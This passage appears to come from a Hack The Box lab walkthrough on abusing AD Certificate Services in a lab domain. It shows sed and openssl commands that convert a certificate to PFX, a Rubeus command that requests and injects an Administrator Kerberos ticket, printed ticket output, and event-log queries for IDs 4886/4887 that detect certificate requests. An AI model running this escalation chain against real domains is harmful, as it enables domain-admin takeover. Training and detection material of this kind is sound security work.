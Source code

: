 ```
[/htb]$ sed -i 's/\s\s+/\n/g' cert.pem
```
Then we can execute the openssl command mentioned in the output of Certify.
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
![convert to pem](./img/convertPEM.png)
Now that we have the certificate in a usable PFX format (which Rubeus supports), we can request a Kerberos TGT for the account Administrator and authenticate with the certificate:

```
PS C:\Users\bob\Downloads> .\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'eagle.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      LmxvY2Fs
```

[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *
